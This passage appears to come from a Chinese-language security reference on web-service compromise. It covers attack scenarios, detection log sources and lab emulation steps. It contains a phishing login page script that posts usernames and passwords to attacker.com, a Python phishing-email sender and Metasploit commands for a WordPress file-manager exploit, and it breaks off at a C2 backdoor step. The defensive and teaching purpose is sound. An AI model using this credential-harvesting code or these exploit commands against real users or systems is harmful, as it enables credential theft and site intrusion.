         </form>
        <script>
            document.getElementById('login-form').addEventListener('submit', function(e) {
                e.preventDefault();
                var data = {
                    username: document.getElementById('username').value,
                    password: document.getElementById('password').value
                };
                fetch('http://attacker.com/collect', {
                    method: 'POST',
                    body: JSON.stringify(data)
                });
            });
        </script>
    </body>
    </html>
    ```
- **案例场景**：
  - 攻击者入侵受感染的WordPress站点，部署C2后门，用于与受感染主机通信（参考Turla组织的行为）。
  - 通过窃取Google Drive账户凭据，上传恶意文件并生成共享链接，分发给目标用户。
  - 攻击者利用GitHub账户凭据，在GitHub Pages上托管伪装的登录页面，窃取员工凭据。

## 检测日志
Web服务入侵活动多发生在目标组织监测范围之外，难以直接监测。以下是可能的日志来源：
- **网络流量日志**：
  - 检测与Web服务（如Twitter API、Google Drive）的异常通信或API调用。
- **DNS日志**：
  - 记录解析到Web服务IP的异常域名查询，可能与C2或钓鱼相关。
- **邮件服务器日志**：
  - 监控针对Web服务账户的钓鱼邮件。
- **端点日志**：
  - 记录访问Web服务托管的恶意页面或下载可疑文件的活动。
- **Web服务日志**：
  - 监控账户的异常登录、内容修改或API使用（需Web服务提供商支持）。

## 测试复现
以下是在受控授权环境中模拟Web服务入侵的步骤：
1. **环境准备**：
   - 注册测试账户（如GitHub、WordPress、Google Drive），准备测试环境。
   - 搭建本地WordPress实例，模拟弱配置（如未更新的插件）。
2. **凭据窃取模拟**：
   - 发送伪装的钓鱼邮件，诱导用户泄露GitHub凭据：
     ```python
     import smtplib
     from email.mime.text import MIMEText
     msg = MIMEText("Reset your GitHub password: http://fake-github.com/reset")
     msg['Subject'] = 'Urgent: GitHub Account Security'
     msg['From'] = 'support@fake-github.com'
     msg['To'] = 'user@test.com'
     with smtplib.SMTP('smtp.attacker.com') as server:
         server.login('user', 'pass')
         server.send_message(msg)
     ```
3. **漏洞利用模拟**：
   - 攻击WordPress插件漏洞：
     ```bash
     msfconsole
     use exploit/multi/http/wp_file_manager_rce
     set RHOST <WORDPRESS_IP>
     exploit
     ```
   - 在受损WordPress站点上部署C2后门：